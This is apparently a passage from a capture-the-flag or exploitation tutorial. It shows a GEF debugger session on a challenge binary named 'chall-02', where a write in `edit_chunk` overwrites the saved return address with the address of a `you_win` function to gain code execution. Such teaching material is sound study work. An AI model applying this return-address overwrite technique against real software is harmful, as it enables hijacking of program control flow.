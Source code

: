 Now, let's overwrite the return address of `edit_chunk` from within that function, and get code execution:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x000055911df252db  →  <you_win+0> endbr64
$rbx   : 0x0          	 
$rcx   : 0x00007ffed884fa4e  →  0x000000000000000a ("\n"?)
$rdx   : 0x00007ffed884faa8  →  0x000055911df25294  →  <main+107> jmp 0x55911df25235 <main+12>
$rsp   : 0x00007ffed884fa80  →  0x0000000000000000
$rbp   : 0x00007ffed884faa0  →  0x00007ffed884fac0  →  0x0000000000000001
$rsi   : 0x000055911df252db  →  <you_win+0> endbr64
$rdi   : 0xa          	 
$rip   : 0x000055911df25758  →  <edit_chunk+216> mov QWORD PTR [rdx], rax
$r8	: 0x1999999999999999
$r9	: 0x0          	 
$r10   : 0x00007febc5f73ac0  →  0x0000000100000000
$r11   : 0x00007febc5f743c0  →  0x0002000200020002
$r12   : 0x00007ffed884fbd8  →  0x00007ffed8851483  →  "./chall-02"
$r13   : 0x000055911df25229  →  <main+0> endbr64
$r14   : 0x000055911df27d78  →  0x000055911df251e0  →  <__do_global_dtors_aux+0> endbr64
$r15   : 0x00007febc6206020  →  0x00007febc62072e0  →  0x000055911df24000  →   jg 0x55911df24047
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffed884fa80│+0x0000: 0x0000000000000000     ← $rsp
0x00007ffed884fa88│+0x0008: 0x00000000000000a0
0x00007ffed884fa90│+0x0010: 0x00007ffed884faa8  →  0x000055911df25294  →  <main+107> jmp 0x55911df25235 <main+12>
0x00007ffed884fa98│+0x0018: 0x000055911df252db  →  <you_win+0> endbr64
0x00007ffed884faa0│+0x0020: 0x00007ffed884fac0  →  0x0000000000000001     ← $rbp
0x00007ffed884faa8│+0x0028: 0x000055911df25294  →  <main+107> jmp 0x55911df25235 <main+12>     ← $rdx
0x00007ffed884fab0│+0x0030: 0x0000000000000000
0x00007ffed884fab8│+0x0038: 0x00000003c61ee080
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55911df2574d <edit_chunk+205> mov	rax, QWORD PTR [rbp-0x10]
   0x55911df25751 <edit_chunk+209> add	rdx, rax
   0x55911df25754 <edit_chunk+212> mov	rax, QWORD PTR [rbp-0x8]
 → 0x55911df25758 <edit_chunk+216> mov	QWORD PTR [rdx], rax
   0x55911df2575b <edit_chunk+219> lea	rax, [rip+0xbc7]    	# 0x55911df26329
   0x55911df25762 <edit_chunk+226> mov	rdi, rax
   0x55911df25765 <edit_chunk+229> call   0x55911df250d0 <puts@plt>
   0x55911df2576a <edit_chunk+234> leave  
   0x55911df2576b <edit_chunk+235> ret    
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall-02", stopped 0x55911df25758 in edit_chunk (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55911df25758 → edit_chunk()
[#1] 0x55911df25294 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $rax
$2 = 0x55911df252db
gef➤  p $rdx
$3 = 0x7ffed884faa8
gef➤  x/g 0x55911df252db
```